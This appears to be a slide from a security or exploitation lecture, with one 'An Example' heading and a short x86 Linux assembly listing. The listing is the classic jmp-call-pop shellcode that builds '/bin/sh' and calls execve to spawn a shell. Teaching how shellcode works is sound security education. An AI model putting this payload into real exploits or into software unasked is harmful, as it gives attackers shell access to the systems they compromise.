

# An Example
section    .text
    global _start
_start:
    jmp short       GotoCall
shellcode:
     pop            esi
     xor             eax, eax
     mov byte   [esi + 7], al
     lea             ebx, [esi]
     mov long   [esi + 8], ebx
     mov long   [esi + 12], eax
     mov byte   al, 0x0b
     mov           ebx, esi
     lea             ecx, [esi + 8]
     lea             edx, [esi + 12]
     int              0x80
GotoCall:
     Call             shellcode    // GetPC Code
     db              '/bin/shJAAAAKKKK'  // AAAA and KKKK can be parameters for system calls